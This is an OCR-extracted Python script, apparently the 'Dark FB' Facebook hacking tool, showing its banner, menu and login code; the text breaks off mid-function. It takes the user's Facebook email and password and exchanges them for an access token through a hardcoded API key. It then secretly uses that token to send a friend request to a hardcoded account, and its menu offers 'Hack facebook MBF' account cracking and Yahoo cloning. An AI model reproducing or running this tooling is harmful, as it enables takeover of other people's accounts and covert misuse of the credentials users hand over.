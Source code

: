 "\033[1;96m[!] \x1b[1;91mExit" os.sys.exit() def acak(x): w = 'mhkbpcP' d = '' for i in x: d += '!'+w[random.randint(0,len(w)-1)]+i return cetak(d) def cetak(x): w = 'mhkbpcP' for i in w: j = w.index(i) x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j)) x += '\033[0m' x = x.replace('!0','\033[0m') sys.stdout.write(x+'\n') def jalan(z): for e in z + '\n': sys.stdout.write(e) sys.stdout.flush() time.sleep(0.05) logo = """ \x1b[1;93m______ \x1b[1;92m_______ \x1b[1;94m______ \x1b[1;91m___ _\n \x1b[1;93m| | \x1b[1;92m| _ |\x1b[1;94m| _ | \x1b[1;91m| | | |\n \x1b[1;93m| _ |\x1b[1;92m| |_| |\x1b[1;94m| | || \x1b[1;91m| |_| |\n \x1b[1;93m| | | |\x1b[1;92m| |\x1b[1;94m| |_||_ \x1b[1;91m| _|\n \x1b[1;93m| |_| |\x1b[1;92m| |\x1b[1;94m| __ |\x1b[1;91m| |_ \n \x1b[1;93m| |\x1b[1;92m| _ |\x1b[1;94m| | | |\x1b[1;91m| _ |\n \x1b[1;93m|______| \x1b[1;92m|__| |__|\x1b[1;94m|___| |_|\x1b[1;91m|___| |_| \x1b[1;96mFB\n\n \x1b[1;95m●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●\n ✫╬─ \x1b[1;92mReCode \x1b[1;91m: \x1b[1;93momalip \x1b[1;95m─╬✫\n ✫╬─ \x1b[1;92mFB \x1b[1;92m \x1b[1;91m: \x1b[1;96mFacebook.com/theomalip \x1b[1;95m─╬✫\n ✫╬─ \x1b[1;92mGitHub \x1b[1;91m: \x1b[1;94mGithub.com/storiku \x1b[1;95m─╬✫\n ●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬● """ def tik(): titik = ['. ','.. ','... '] for o in titik: print("\r\033[1;96m[●] \x1b[1;93mSedang masuk \x1b[1;97m"+o),;sys.stdout.flush();time.sleep(1) back = 0 threads = [] berhasil = [] cekpoint = [] oks = [] id = [] listgrup = [] vulnot = "\033[31mNot Vuln" vuln = "\033[32mVuln" def siapa(): os.system('clear') nama = raw_input("\033[1;97mSiapa nama kamu ? \033[1;91m: \033[1;92m") if nama =="": print"\033[1;96m[!] \033[1;91mIsi yang benar" time.sleep(1) siapa() else: os.system('clear') jalan("\033[1;97mSelamat datang \033[1;92m" +nama+ "\n\033[1;97mTerimakasih telah menggunakan tools ini !!") time.sleep(1) loginSC() def loginSC(): os.system('clear') print"\033[1;97mSilahkan login SC nya dulu bosque\n" username = raw_input("\033[1;96m[*] \033[1;97mUsername \033[1;91m: \033[1;92m") password = raw_input("\033[1;96m[*] \033[1;97mPassword \033[1;91m: \033[1;92m") if username =="dark" and password =="fb": print"\033[1;96m[✓] \033[1;92mLogin success" time.sleep(1) login() else: print"\033[1;96m[!] \033[1;91mSalah!!" time.sleep(1) LoginSC() def login(): os.system('clear') try: toket = open('login.txt','r') menu() except (KeyError,IOError): os.system('clear') print logo print 42*"\033[1;96m=" print('\033[1;96m[☆] \x1b[1;93mLOGIN AKUN FACEBOOK ANDA \x1b[1;96m[☆]' ) id = raw_input('\033[1;96m[+] \x1b[1;93mID/Email \x1b[1;91m: \x1b[1;92m') pwd = raw_input('\033[1;96m[+] \x1b[1;93mPassword \x1b[1;91m: \x1b[1;92m') tik() try: br.open('https://m.facebook.com') except mechanize.URLError: print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi" keluar() br._factory.is_html = True br.select_form(nr=0) br.form['email'] = id br.form['pass'] = pwd br.submit() url = br.geturl() if 'save-device' in url: try: sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32' data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"} x=hashlib.new("md5") x.update(sig) a=x.hexdigest() data.update({'sig':a}) url = "https://api.facebook.com/restserver.php" r=requests.get(url,params=data) z=json.loads(r.text) unikers = open("login.txt", 'w') unikers.write(z['access_token']) unikers.close() print '\n\033[1;96m[✓] \x1b[1;92mLogin Berhasil' requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token']) os.system('xdg-open https://www.youtube.com/omaliptv') menu() except requests.exceptions.ConnectionError: print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi" keluar() if 'checkpoint' in url: print("\n\033[1;96m[!] \x1b[1;91mSepertinya akun anda kena checkpoint") os.system('rm -rf login.txt') time.sleep(1) keluar() else: print("\n\033[1;96m[!] \x1b[1;91mPassword/Email salah") os.system('rm -rf login.txt') time.sleep(1) login() def menu(): os.system('clear') try: toket=open('login.txt','r').read() except IOError: os.system('clear') print"\033[1;96m[!] \x1b[1;91mToken invalid" os.system('rm -rf login.txt') time.sleep(1) keluar() try: otw = requests.get('https://graph.facebook.com/me?access_token='+toket) a = json.loads(otw.text) nama = a['name'] id = a['id'] except KeyError: os.system('clear') print"\033[1;96m[!] \033[1;91mToken invalid" os.system('rm -rf login.txt') time.sleep(1) login() except requests.exceptions.ConnectionError: print"\033[1;96m[!] \x1b[1;91mTidak ada koneksi" keluar() os.system("clear") print logo print 42*"\033[1;96m=" print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m Nama \033[1;91m: \033[1;92m"+nama+"\033[1;97m " print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m ID \033[1;91m: \033[1;92m"+id+"\x1b[1;97m " print 42*"\033[1;96m=" print "\x1b[1;97m1.\x1b[1;93m Hack facebook MBF" print "\x1b[1;97m2.\x1b[1;93m Lihat daftar grup " print "\x1b[1;97m3.\x1b[1;93m Informasi akun " print "\x1b[1;97m4.\x1b[1;93m Yahoo clone " print "\n\x1b[1;91m0.\x1b[1;91m Logout " pilih() def pilih(): unikers = raw_input("\n\033[1;97m >>> \033[1;97m") if unikers =="": print "\033[1;96m[!] \x1b[1;91mIsi yang benar" pilih() elif unikers =="1": super() elif unikers =="2": grupsaya() elif unikers =="3": informasi() elif unikers =="4": yahoo() elif unikers =="0": os.system('clear') jalan('Menghapus token') os.system('rm -rf login.txt') keluar() else: print "\033[1;96m[!] \x1b[1;91mIsi yang benar" pilih() def super(): global toket os.system('clear') try: toket=open('login.txt','r').read() except IOError: print"\033[1;96m[!]